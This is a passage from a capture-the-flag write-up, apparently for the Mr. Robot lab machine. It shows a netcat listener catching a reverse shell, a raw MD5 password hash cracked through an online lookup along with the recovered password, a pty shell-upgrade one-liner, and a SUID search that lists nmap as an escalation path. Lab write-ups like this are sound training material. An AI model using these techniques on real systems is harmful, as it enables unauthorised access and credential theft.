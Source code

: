 ```sh
>>> nc -lvnp 1235             
Listening on 0.0.0.0 1235
Connection received on 10.10.164.16 45444
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 14:05:19 up 56 min,  0 users,  load average: 0.00, 0.71, 1.24
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ 
```

Looking at `/home/robot` we can see two files:
```sh
daemon@linux:/home/robot$ ls
key-2-of-3.txt	password.raw-md5
```
looking at password.raw-md5 we have a username and a password: `robot:c3fcd3d76192e4007dfb496cca67e13b`
looking [crackstation.net](https://crackstation.net/) we can get the password:

![alt text](https://i.imgur.com/LVm9fnA.png)

let's connect to the robot user:
```sh
$ su robot
su: must be run from a terminal
$ python -c 'import pty; pty.spawn("/bin/bash")' #spawn a bash shell
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ 
```

# PrivEsc

looking at the suid files we can see that nmap is owned by root:
```sh
robot@linux:/$ find / -perm +6000 2>/dev/null | grep '/bin/'
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
```
